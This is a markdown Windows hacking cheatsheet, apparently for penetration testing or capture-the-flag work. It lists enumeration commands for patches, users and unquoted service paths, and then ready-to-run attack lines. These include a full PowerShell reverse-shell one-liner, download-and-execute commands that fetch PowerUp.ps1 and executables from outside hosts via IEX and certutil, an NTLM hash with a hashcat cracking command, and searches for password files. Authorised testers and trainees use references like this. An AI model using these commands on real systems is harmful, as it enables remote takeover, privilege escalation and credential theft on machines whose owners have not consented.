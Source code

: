 # WINDOWS HACKING CHEATSHEET

## System Enumeration

### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Show Drives
`wmic logicaldisk get caption,Description,providername`

### Find specific directory
`dir <Folder Name> /AD /s`

### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

### Search long output
`command |more`

### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

## User Enumeration

### Show User Privlages
`whoami /priv`

### Show a Users Group
`whoami /groups`

### List users in a group
`net localgroup administrtor`

### Show info on specified user
`net user administrator`

## Network Enumeration

### Show Routing table
`route print`

## Shells

### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Passwords

### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

### Cracking Windows Password Hash
_Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::_
_USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::_

`hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt`

### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

## Useful Commands

### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`